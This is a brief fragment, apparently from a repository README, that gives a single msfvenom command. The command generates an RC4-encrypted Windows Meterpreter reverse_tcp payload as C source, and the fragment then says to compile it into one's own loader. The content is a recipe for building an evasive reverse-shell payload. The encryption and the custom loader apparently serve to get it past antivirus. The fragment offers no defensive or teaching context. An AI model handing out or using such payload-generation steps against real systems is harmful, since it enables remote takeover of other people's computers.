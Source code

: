     msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c > /path/to/output.c

then compile to own loader
